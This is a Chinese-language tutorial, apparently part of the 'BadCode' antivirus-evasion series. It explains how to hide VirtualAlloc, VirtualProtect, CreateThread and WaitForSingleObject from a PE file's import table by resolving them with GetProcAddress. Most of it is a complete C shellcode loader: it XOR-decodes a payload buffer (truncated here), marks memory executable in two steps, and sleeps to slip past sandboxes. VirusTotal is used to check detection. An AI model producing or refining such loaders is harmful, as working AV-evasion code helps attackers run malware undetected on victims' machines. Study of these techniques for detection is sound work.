




代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 导入地址表（IAT）

> Import Address Table 由于导入函数就是被程序调用但其执行代码又不在程序中的函数，这些函数的代码位于一个或者多个DLL 中，当PE 文件被装入内存的时候，Windows 装载器才将DLL 装入，并将调用导入函数的指令和函数实际所处的地址联系起来(动态连接)，这操作就需要导入表完成.其中导入地址表就指示函数实际地址。 - 来源百度百科


如下图所示：



在PE结构中，存在一个导入表，导入表中声明了这个PE文件会载入哪些模块，同时每个模块的结构中又会指向模块中的一些函数名称。这样的组织关系是为了告诉操作系统这些函数的地址在哪里，方便修正调用地址。

站在反病毒的角度提出假想：既然所有的PE文件都有导入表，并且声明了一些模块，并且还能通过模块找到导入函数的名称，那么是否能够作为一个文件的风险值的评估方向？

方法论：

如果一个文件的文件大小在300KB以内，并且导入函数又有`Virtual Alloc`、`CreateThread`，且`VirtualAlloc`的最后一个参数是`0x40`，那么此文件是高危文件。

`0x40`被定义在`winnt.h`中：

```c
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80  
```

看一下[第一课代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)编译出来的PE导出表：




根据这个猜想，我们开始尝试在PE文件中抹去导入函数名称。

## 0x02 GetProcAddress获取函数地址

`GetProcAddress`这个API在Kernel32.dll中被导出，主要功能是从一个加载的模块中获取函数的地址。

函数声明如下：

```c++
FARPROC GetProcAddress(
  HMODULE hModule, // 模块句柄
  LPCSTR  lpProcName // 函数名称
);
```

`FARPROC`被定义在了`minwindef.h`中，声明如下：

```c
#define WINAPI      __stdcall

typedef int (FAR WINAPI *FARPROC)();
```

跟进它的声明能够发现是一个函数指针，也就是说`GetProcAddress`返回的是我们要找的函数地址。

## 0x03 自己动手获取函数地址

我们拿[第一课的代码](https://github.com/Rvn0xsy/BadCode/tree/master/BadCode)来尝试修改。

分析[第一课的代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)，主要流程：

```
VirtualAlloc -> VirtualProtect -> CreateThread -> WaitForSingleObject
```

这几个函数是比较明显的，并且都在`kernel32.dll`中导出，我们尝试自己定义他们的函数指针，然后利用`GetProcAddress`获取函数地址，调用自己的函数名称。

新建一个`C/C++`项目，定义如下：

```c++
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD (WINAPI * ImportWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

然后在`main`函数中，定义四个函数指针来存放这些函数的地址。

```c++
	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");
```

完整代码如下：

```c
#include <Windows.h>
#include <intrin.h>
#include <WinBase.h>
#include <stdio.h>

typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD(WINAPI* ImportWaitForSingleObject)(
	HANDLE hHandle,
	DWORD  dwMilliseconds
	);


// 入口函数
int wmain(int argc, TCHAR* argv[]) {

	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");


	int shellcode_size = 0; // shellcode长度
	DWORD dwThreadId; // 线程ID
	HANDLE hThread; // 线程句柄
	DWORD dwOldProtect; // 内存页属性
/* length: 800 bytes */

	char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a...";


	// 获取shellcode大小
	shellcode_size = sizeof(buf);

	/* 增加异或代码 */
	for (int i = 0; i < shellcode_size; i++) {
		//Sleep(50);
		_InterlockedXor8(buf + i, 10);
	}
	
	/*
	VirtualAlloc(
		NULL, // 基址
		800,  // 大小
		MEM_COMMIT, // 内存页状态
		PAGE_EXECUTE_READWRITE // 可读可写可执行
		);
	*/

	char* shellcode = (char*)MyVirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE // 只申请可读可写
	);

	// 将shellcode复制到可读可写的内存页中
	CopyMemory(shellcode, buf, shellcode_size);

	// 这里开始更改它的属性为可执行
	MyVirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

	// 等待几秒，兴许可以跳过某些沙盒呢？
	Sleep(2000);

	hThread = MyCreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);

	MyWaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
	return 0;
}
```


编译后能够正常执行，并且我们查看一下导入表，我们自己定义的函数已经不在导入表中了：




[Virus Total](https://www.virustotal.com/gui/file/6e46cbe74a6d82747d2eb057d49b449477ab9c5e7bc6a7be295cbe7c09d5a7e4/detection)一下看看：



目前这个程序仅仅只是在一个函数中进行调用，并且还有字符串硬编码的问题，下一课着重分享如何解决字符串硬编码的问题。